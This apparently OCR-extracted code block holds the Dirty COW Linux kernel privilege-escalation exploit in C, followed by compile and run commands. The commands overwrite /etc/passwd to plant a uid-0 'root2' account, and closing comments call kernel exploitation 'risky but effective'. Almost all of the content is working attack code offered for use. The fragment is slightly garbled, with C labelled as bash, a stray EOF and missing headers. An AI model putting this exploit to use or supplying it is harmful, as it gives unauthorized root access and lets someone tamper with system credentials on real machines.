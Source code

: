 ```bash
#include <string.h>
#include <unistd.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg) {
    char *str;
    str = (char*)arg;
    int i, c = 0;
    for(i = 0; i < 1000000 && !c; i++) {
        c = madvise(map, 100, MADV_DONTNEED);
    }
    printf("madvise %d\n\n", c);
}

void *procselfmemThread(void *arg) {
    char *str;
    str = (char*)arg;
    int f = open("/proc/self/mem", O_RDWR);
    int i, c = 0;
    for(i = 0; i < 1000000 && !c; i++) {
        lseek(f, (uintptr_t) map, SEEK_SET);
        c = write(f, str, strlen(str));
    }
    printf("procselfmem %d\n\n", c);
}

int main(int argc, char *argv[]) {
    if (argc < 3) {
        printf("Usage: %s <target_file> <new_content>\n", argv[0]);
        exit(1);
    }
    
    pthread_t pth1, pth2;
    f = open(argv[1], O_RDONLY);
    fstat(f, &st);
    name = argv[1];
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
    printf("mmap %p\n\n", map);
    
    pthread_create(&pth1, NULL, madviseThread, argv[1]);
    pthread_create(&pth2, NULL, procselfmemThread, argv[2]);
    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);
    return 0;
}
EOF

gcc -pthread dirty_cow.c -o dirty_cow
./dirty_cow /etc/passwd "root2:x:0:0:root:/root:/bin/bash"

# Why kernel exploitation is risky but effective:
# - Direct kernel access provides guaranteed root
# - May crash system or cause instability
# - Detection risk due to system-level interaction
# - Often requires specific kernel version matching
```
